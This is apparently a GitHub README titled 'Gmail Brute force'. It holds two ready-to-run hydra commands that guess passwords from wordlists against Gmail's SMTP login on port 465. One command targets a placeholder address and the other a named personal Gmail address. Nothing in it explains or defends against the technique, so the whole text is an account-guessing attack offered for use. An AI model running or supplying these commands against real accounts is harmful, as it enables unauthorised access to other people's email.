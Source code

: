 # hy

***Gmail Brute force***

```
hydra -S -l exempo@gmail.com -P caminhodawordlist.txt -v -V -e ns 465 smtp.gmail.com smtp
```

```
 hydra smtp.gmail.com smtp -l marcosvilela@gmail.com -P /root/cupp/wordlist.com-S 465 -v -V
```


```
bash requirements
```
